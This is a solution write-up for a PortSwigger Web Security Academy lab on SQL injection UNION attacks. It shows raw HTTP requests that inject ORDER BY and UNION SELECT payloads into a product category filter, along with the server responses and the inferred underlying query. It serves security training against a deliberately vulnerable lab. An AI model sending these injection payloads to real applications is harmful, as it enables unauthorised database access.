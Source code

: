 # Lab 04: SQL injection UNION attack, finding a column containing text

## Description

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

---

## Solution

### Determining the number of columns

By sending incremental `ORDER BY` clauses, I found that the original `SELECT` statement is returning 3 columns, since I received an error when trying to order by the column at index 4.

No error:

```http
GET /filter?category=Pets'+ORDER+BY+3-- HTTP/1.1
Host: ac621ff31ec5653280e22bd900be006f.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 6553
```

Error:

```http
GET /filter?category=Pets'+ORDER+BY+4-- HTTP/1.1
Host: ac621ff31ec5653280e22bd900be006f.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 21

Internal Server Error
```

The objective is to determine which column from the original `SELECT` statement's results is a string and to use the string `Jyoewi` to do so. By iteratively attempting a `UNION SELECT` with all `NULL` columns except for one, it appears that the second column has data type string.

```http
GET /filter?category=Pets'+UNION+SELECT+NULL,'Jyoewi',NULL-- HTTP/1.1
Host: ac621ff31ec5653280e22bd900be006f.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

From further analysis, it appears that the original `SELECT` statement is:

```sql
SELECT id, name, price FROM products WHERE category = 'CATEGORY'
```
